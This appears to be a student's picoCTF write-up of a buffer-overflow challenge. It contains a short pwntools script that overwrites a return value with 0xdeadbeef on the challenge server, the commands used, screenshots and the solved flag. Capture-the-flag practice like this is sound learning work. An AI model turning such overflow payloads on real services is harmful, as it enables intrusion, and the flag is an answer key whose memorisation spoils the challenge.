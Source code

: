 ```
from pwn import *

fname = './chall'

r = remote('mars.picoctf.net', 31890)

r.sendline(b'A' * 264 + p64(0xdeadbeef))

r.interactive()
```
commands used:
```
nc mars.picoctf.net 31890
python3 GETflag.py 
pip install --upgrade pwntools
apt install python3-pwntools
sudo apt install python3-pwntools
python3 GETflag.py
```
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-03-52" src="https://github.com/user-attachments/assets/ea0e4b08-ed09-44e7-a002-16fc6335c70c" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-05-51" src="https://github.com/user-attachments/assets/84e4aabb-1501-4525-ba3a-7110c4fa217a" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-06-06" src="https://github.com/user-attachments/assets/7775b86e-3c22-49c2-9740-d2ef891ce672" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-11-06" src="https://github.com/user-attachments/assets/00b7be09-3997-4ab0-b161-a5149973d16d" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-18-16" src="https://github.com/user-attachments/assets/b0031243-8d3d-4775-bcd7-f907ae95088c" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-19-40" src="https://github.com/user-attachments/assets/c5630d2c-870a-45bf-9781-ca51e07b572b" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-19-45" src="https://github.com/user-attachments/assets/2f6e3916-8fe4-41b8-8bff-e460e49be273" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-19-50" src="https://github.com/user-attachments/assets/6d527e7d-ec6d-4724-8c3c-cfdc59b507f7" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-20-17" src="https://github.com/user-attachments/assets/d779e1ee-89f1-43b5-bb82-5a00877631ad" />
<img width="1920" height="1080" alt="Screenshot From 2025-10-31 22-21-29" src="https://github.com/user-attachments/assets/9dffccd5-dbe7-43e4-9d23-3e0561694267" />

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:
Buffer overflow Vulnerability

pwntool application

## Resources:

[Basic Definitions](https://google.com)
[Buffer append](https://www.youtube.com/watch?v=1S0aBV-Waeo)
***
